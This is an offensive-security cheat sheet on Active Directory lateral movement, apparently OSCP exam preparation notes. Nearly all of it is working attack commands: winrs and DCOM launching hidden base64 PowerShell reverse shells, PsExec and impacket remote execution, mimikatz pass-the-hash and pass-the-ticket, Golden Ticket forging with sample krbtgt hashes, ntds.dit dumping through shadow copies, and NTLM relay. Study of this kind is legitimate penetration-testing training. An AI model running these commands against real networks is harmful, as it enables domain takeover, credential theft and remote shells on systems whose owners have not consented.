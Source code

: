 # 🏹 AD Lateral Movement

## Winrs

```shell
# add the base64-encoded PowerShell reverse shell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e <encoded_rs>"
```

## PsExec.exe

**Requirements**:

- The user that authenticates to the target machine needs to be part of the Administrators local group.
- The _ADMIN$_ share must be available (enabled by default).
- File and printer sharing has to be turned on (on by default)

```shell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

## Evil-Winrm

```shell
# using password
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -S
# using hash
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
# using key
evil-winrm -i <ip>/<domain> -c cert.pem -k key.pem -S

# once connected, upload or download files
upload <file>
download <file>

# load PS scripts on connect
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -s <script.ps1>
```

## Impacket-\*execs

**Requirements**:

- An SMB connection through the firewall (commonly port 445).
- The Windows File and Printer Sharing feature must be enabled.
- The admin share called **ADMIN$** must be available.

```shell
# psexec
impacket-psexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# smbexec
impacket-smbexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# wmiexec
impacket-wmiexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# atexec
impacket-atexec -hashes <hash:hash> <domain>/<user>@<IP> <command>

# if you only have the NTLM hash portion, use :<ntlm_hash>
```

## Overpass the Hash

> When you have NTLM hashes but need Kerberos access.

```shell
# get hashes with mimikatz
privilege::debug
sekurlsa::logonpasswords
# generate Kerberos ticket
sekurlsa::pth /user:Administrator /domain:<domain> /ntlm:<hash>
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\C$
```

## Pass the Ticket

> When you have Kerberos tickets but not the NTLM hash.

```shell
# export tickets with mimikatz
privilege::debug
sekurlsa::tickets /export
# import it as the current user
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<rhost>.LOCAL.kirbi
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\admin$
```

## DCOM

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGU...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## Golden Ticket

Is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to gain complete control of the Active Directory domain because it grants them the ability to request tickets for any service.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant KDC as KDC
    participant S as Service

    Note over A: Attacker obtains KRBTGT key (offline)
    A->>A: Forge Golden Ticket (TGT) with custom claims
    A->>KDC: TGS-REQ (with forged TGT)
    KDC-->>A: TGS-REP (service ticket)
    A->>S: AP-REQ (with forged service ticket and authenticator)
    S-->>A: AP-REP (access granted)
```

```shell
# Windows
# delete existing tickets
kerberos::purge

# get domain SID
whoami /user

# forge the ticket
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# spawn a cmd as the new user
misc::cmd
# or launch psexec.exe
PsExec.exe \\dc1 cmd.exe

# Linux
impacket-ticketer -aesKey <key> -domain-sid <sid> -domain <domain> -extra-sid <parent_sid> <user> -extra-pac

# import the TGT
export KRB5CCNAME=<user>.ccache

# access the machine
impacket-psexec -k -no-pass <domain>/<username>@<hostname>.<domain>
```

To get the parent domain (if needed), use it in `-extra-sid`:

```shell
.\mimikatz.exe "lsadump::trust /patch" "exit"
```

## Shadow Copies

**Requirements**:

- Admins or SYSTEM privs
- Access to a DC (ntds.dit is only on DC)
- Regular user with **SeBackupPrivilege** (Can use robocopy to get the file from the copy)

### vshadow

```shell
# execute vshadow and look for the path
vshadow.exe -nw -p C:
# copy from the path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
# get system
reg.exe save hklm\system c:\system.bak
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### diskshadow

First, set up a **shadowcopy.txt** instructions file in which you create a volume with an alias as seen [here](https://pentestlab.blog/tag/diskshadow/):

```shell
set context persistent nowriters
add volume c: alias hack
create
expose %hack% z:
```

Upload the file and execute `diskshadow`

```shell
# execute diskshadow using the file
diskshadow.exe /s .\test.txt
# copy or use robocopy if regular user witn backup perms
robocopy /b z:\Windows\NTDS\ . ntds.dit 
# get system
reg save HKLM\system system
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

## NTLM Relay

!!! warning ""
    Poisoning and Spoofing is not allowed on the OSCP exam

!!! info
    SMB signing on the target system must be **disabled**

```shell
# check whether the SMB signing is enabled on the target system
nxc smb <target_host>

# capture and forward the request to target host and execute a command on it
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host> -c "powershell -enc JABjAGwAa...AYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="

# dump target hashes without executing command
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host>
```
